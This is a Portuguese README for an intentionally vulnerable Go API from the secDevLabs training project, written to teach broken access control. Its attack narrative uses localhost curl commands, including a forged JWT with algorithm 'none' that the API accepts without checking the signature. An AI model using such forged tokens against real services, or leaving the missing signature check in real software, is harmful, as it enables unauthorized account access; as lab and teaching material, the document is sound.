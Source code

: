

# Camp Crystal Lake API

[Access content in English](README.md)

<p align="center">
    <img src="images/camplake.png" width="400" height="400"/>
</p>

A API do Camp Crystal Lake é um aplicativo web simples de Golang que contém um exemplo de vulnerabilidade de controle de acesso quebrado e seu principal objetivo é descrever como um usuário mal-intencionado pode explorá-lo.

## Index

- [Definição](#quebra-de-controle-de-acesso)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluçoes)
- [Contribuição](#Contribuições)

## O que é quebra de controle de acesso?

O controle de acesso impõe a política de forma que os usuários não possam agir fora de suas permissões pretendidas. As falhas geralmente levam à divulgação, modificação ou destruição de informações não autorizada dos dados ou à execução de uma função fora dos limites de acesso do usuário.

Os invasores podem explorar essas falhas para acessar funcionalidades e/ou dados não autorizados, como acesso a contas de outros usuários, visualizar arquivos confidenciais, modificar dados de outros usuários, alterar direitos de acesso, etc.

O principal objetivo deste aplicativo é discutir como as vulnerabilidades do **Quebra de Controle de Acesso** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações pull no **SecDevLabs** sobre como eles corrigiriam essas falhas.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório o [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a1/camp-lake-api
```

```sh
make install
```

Depois é só visitar [localhost:20001][App] ! 😆

## Conheça o app 💵

Para entender corretamente como esse aplicativo funciona, você pode seguir esses passo a passo:

- Registrar um usuário;
- Realizar um login;
- Criar um novo post.

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### A validação incorreta do JWT, permite que usuários mal-intencionados criem tokens falsos e abusem da não validação do JWT. Um exemplo da não validação do JWT é não validar o algoritmo de assinatura usado.

Para entender melhor como a API funciona, criaremos um novo usuário.

Para este exemplo, criamos o usuário com as seguintes credenciais de login - `campLakeAdmin:campLake2021`

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"campLakeAdmin","password":"campLake2021"}' http://localhost:20001/register  
```

<p align="center">
    <img src="images/attack_1.png"/>
</p>

Com o usuário criado, faremos login no aplicativo com suas credenciais para obter o token JWT. Por se tratar de um aplicativo de teste, o token JWT é devolvido ao usuário assim que ele efetua o login.

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"campLakeAdmin","password":"campLake2021"}' http://localhost:20001/login
```

<p align="center">
    <img src="images/attack_2.png"/>
</p>

<p align="center">
    <img src="images/attack_4.png"/>
</p>

De posse do token JWT, podemos criar um novo post na API, fazendo uma requisição POST diretamente para a rota autenticada `newPost`.

```sh
curl -s -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNhbXBMYWtlQWRtaW4iLCJleHAiOjE2MzMzODI5MzR9.aW4BTVuXaozSbF6EAJfRNsApRA_1hfk2OhaLAo250Uo' -d '{"title": "New member ", "post": "Today a new member ..."}' http://localhost:20001/newpost
```

<p align="center">
    <img src="images/attack_3.png"/>
</p>

### 🔥

Porém, a API não verifica a assinatura utilizada pelo token JWT, qualquer usuário malicioso pode criar um token falso, conforme mostra a imagem:

<p align="center">
    <img src="images/attack_5.png"/>
</p>

```sh
curl -s -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6Imphc29uVm9vcmhlc3MiLCJleHAiOjE2MzMzODM1ODZ9.' -d '{"title": "New member ", "post": "Today a new member ..."}' http://localhost:20001/newpost
```

<p align="center">
    <img src="images/attack_6.png"/>
</p>


## Proteger esse aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

* Usar tokens falsos sem uma assinatura válida.
* Alterar outros usuários por meio da manipulação do JWT.

## PR Soluções

[Alerta de spoiler  🚨 ] Para entender como essa vulnerabilidade pode ser mitigada, confira [these pull requests]()!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) para orientações sobre como proceder !🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10005
[secDevLabs]: https://github.com/globocom/secDevLabs
[2]:https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a5/ecommerce-api
